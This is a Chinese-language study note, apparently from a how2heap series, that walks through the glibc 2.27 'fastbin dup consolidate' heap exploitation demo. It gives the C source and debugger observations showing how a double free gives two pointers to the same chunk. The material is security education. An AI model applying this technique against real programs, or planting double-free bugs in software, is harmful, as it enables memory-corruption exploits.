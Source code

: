```yaml
---
title: fastbin dup consolidate
description: 
published: true
date: 2022-10-04T13:21:40.481Z
tags: pwn, 堆利用
editor: markdown
dateCreated: 2022-10-04T13:18:36.274Z
---
```


# 源码
```c
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

void main() {
	// reference: https://valsamaras.medium.com/the-toddlers-introduction-to-heap-exploitation-fastbin-dup-consolidate-part-4-2-ce6d68136aa8
	puts("This is a powerful technique that bypasses the double free check in tcachebin.");
	printf("Fill up the tcache list to force the fastbin usage...\n");

	void *ptr[7];

	for(int i = 0; i < 7; i++)
		ptr[i] = malloc(0x40);
	for(int i = 0; i < 7; i++)
		free(ptr[i]);

  void* p1 = calloc(1,0x40);

  printf("Allocate another chunk of the same size p1=%p \n", p1);
  printf("Freeing p1 will add this chunk to the fastbin list...\n\n");
  free(p1);

  void* p3 = malloc(0x400);
	printf("Allocating a tcache-sized chunk (p3=%p)\n", p3);
	printf("will trigger the malloc_consolidate and merge\n");
	printf("the fastbin chunks into the top chunk, thus\n");
	printf("p1 and p3 are now pointing to the same chunk !\n\n");

	assert(p1 == p3);

  printf("Triggering the double free vulnerability!\n\n");
	free(p1);

	void *p4 = malloc(0x400);

	assert(p4 == p3);

	printf("The double free added the chunk referenced by p1 \n");
	printf("to the tcache thus the next similar-size malloc will\n");
	printf("point to p3: p3=%p, p4=%p\n\n",p3, p4);
}
```

# 解析
## 填充tcache
源码中10到15行如下所示
```c
void *ptr[7];

for(int i = 0; i < 7; i++)
  ptr[i] = malloc(0x40);
for(int i = 0; i < 7; i++)
  free(ptr[i]);
```
正如源码中第8行所说的，上面的代码主要是为了填充tcache，从而快速使用fastbin。

## fastbin中放入chunk
源码17到21行如下所示
```c
void* p1 = calloc(1,0x40);

printf("Allocate another chunk of the same size p1=%p \n", p1);
printf("Freeing p1 will add this chunk to the fastbin list...\n\n");
free(p1);
```
这里利用`calloc()`申请一个相同大小但非tcache中的chunk，然后将它释放，从而成功将其放入fastbin中。

## 触发malloc consolidate
源码23至27行如下所示
```c
void* p3 = malloc(0x400);
printf("Allocating a tcache-sized chunk (p3=%p)\n", p3);
printf("will trigger the malloc_consolidate and merge\n");
printf("the fastbin chunks into the top chunk, thus\n");
printf("p1 and p3 are now pointing to the same chunk !\n\n");
```
申请一个0x400的堆块，并将用户指针赋给p3。这里源码中的`tcache-sized chunk`没有理解作者的意思，我的理解是申请一个large bin大小的chunk从而触发`malloc consolidate`。这时`p1`和`p3`会指向相同的chunk，咋一看很神奇，我们来调试一下。

在23行下断点，查看fastbin和堆块，如下图所示：

![h2p_2.27_fbdupconsolidate1.png](/how2heap/glibc2.27/fastbin_dup_consolidate/h2p_2.27_fbdupconsolidate1.png){.align-center}
![h2p_2.27_fbdupconsolidate2.png](/how2heap/glibc2.27/fastbin_dup_consolidate/h2p_2.27_fbdupconsolidate2.png){.align-center}

可以看到当23行执行之前，之前释放的`p1`被放入了fastbin中，接下来步过一次，看看23执行后有什么变化，如下图所示：

![h2p_2.27_fbdupconsolidate3.png](/how2heap/glibc2.27/fastbin_dup_consolidate/h2p_2.27_fbdupconsolidate3.png){.align-center}

可以看到fastbin中没有chunk，而且原本地址上的chunk的Size从0x51变为了0x411。这是因为当我们执行`malloc(0x400)`时触发了`malloc consolidate`，fastbin会被清空，原本被释放的`p1`与top chunk合并，然后再从top chunk分割出一个用户空间为0x400大小的chunk，这一过程中堆块的地址不会发生变化，所以`p1`和`p3`就会指向同一个堆块。

## 触发double free
源码31到40行如下所示：
```c
printf("Triggering the double free vulnerability!\n\n");
free(p1);

void *p4 = malloc(0x400);

assert(p4 == p3);

printf("The double free added the chunk referenced by p1 \n");
printf("to the tcache thus the next similar-size malloc will\n");
printf("point to p3: p3=%p, p4=%p\n\n",p3, p4);
```
这时我们可以再次释放`p1`，虽然释放的是`p1`，但是实际上释放的是之前分配的`p3`，如果当我们再次申请相同大小的chunk时，被释放的`p3`再次被调用，chunk地址被赋给了`p4`，这时`p3`和`p4`也指向相同的chunk。

## 运行结果
![h2p_2.27_fbdupconsolidate4.png](/how2heap/glibc2.27/fastbin_dup_consolidate/h2p_2.27_fbdupconsolidate4.png)

# 总结
申请large bin大小的chunk触发`malloc consolidate`，使fastbin中的chunk的指针与新申请的chunk的指针指向同一chunk，然后就可以二次释放fastbin中的chunk，紧接着也可以再次申请已分配的chunk。
